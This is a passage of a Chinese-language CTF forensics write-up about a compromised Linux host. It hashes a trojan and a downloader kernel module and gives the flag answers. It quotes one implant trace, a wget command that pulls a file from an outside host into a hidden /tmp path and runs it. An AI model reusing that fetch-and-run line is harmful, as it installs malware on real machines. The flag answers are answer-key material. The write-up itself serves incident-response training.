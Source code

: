 定位到 `systemd-agentd` 位于 `/lib/systemd/systemd-agentd`

```powershell
PS D:\Desktop> Get-FileHash -Algorithm MD5 .\systemd-agentd

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             BCCAD26B665CA175CD02ACA2903D8B1E                                       D:\Desktop\systemd-agentd
```

即可得到答案

```flag
flag{bccad26b665ca175cd02aca2903d8b1e}
```

## 3

> 找出主机上加载远控木马的持久化程序 (下载者)，其功能为下载并执行远控木马，计算该文件的 MD5, 结果提交形式：`flag{MD5}`

此马就是 `system-upgrade` 位于 `/lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko`

```powershell
PS D:\Desktop> Get-FileHash -Algorithm MD5 .\system-upgrade.ko

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             78EDBA7CBD107EB6E3D2F90F5ECA734E                                       D:\Desktop\system-upgrade.ko
```

即可得到答案

```flag
flag{78edba7cbd107eb6e3d2f90f5eca734e}
```

## 4

> 查找题目 3 中持久化程序 (下载者) 的植入痕迹，计算持久化程序植入时的原始名称 MD5 (仅计算文件名称字符串 MD5)，并提交对应 `flag{MD5}`

在用户目录中可以看到

```plaintext title="/home/ubuntu/1.txt"
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

即可确定答案
